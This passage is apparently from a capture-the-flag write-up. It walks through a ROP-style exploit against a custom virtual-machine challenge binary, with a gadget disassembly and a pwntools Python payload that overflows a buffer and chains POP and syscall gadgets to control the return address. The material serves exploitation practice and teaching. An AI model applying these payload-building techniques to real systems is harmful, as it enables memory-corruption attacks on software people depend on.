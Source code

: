 We will craft our payload by `POP`ing 0 into `reg[0]` (read) and an arbitrary address we want to write to into `reg[1]`. We wrote to a part of the VM with a bunch of nulls (0x2000). We will then we return to `0xa70`, which just calls `syscall` and returns:

```nasm
0xa60: 00000016 00000002 00000100 000000001  → LOAD_IMM reg[2], 256 (0x100)
0xa70: 00000015 00000000 00000000 000000000  → SYSCALL (reg[0]=0, reg[1]=0, reg[2]=256)
0xa80: 00000011 00000000 0000000E 00000000  → MOV reg[0], reg[14] (reg[0] = 0)
0xa90: 00000011 0000000E 0000000D 00000000  → MOV reg[14], reg[13]
0xaa0: 00000010 0000000D 00000000 000000000  → POP reg[13]
0xab0: 0000000D 00000000 00000000 000000000  → RET
```

We craft our first payload like so:

{% hint style="warning" %}
Note that we have to +0x10 for each POP gadget in order to continue controlling the RIP on the stack after each RET
{% endhint %}

```python
pop_0 = 0x410
pop_1 = 0x510
write_sys = 0xa60

payload = b''
payload = payload.ljust(36, b'\x00')
payload = payload + p32(pop_0) + p32(0)
payload += p32(write_sys)

p.send(payload)

p.recv(10)
p.send(cyclic(200))
```

When we send this payload, we can break when the RET is executed to determine where it returns to. We broke at `+0x3eaf` and view the value in **RDX**, which should contain the return address.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
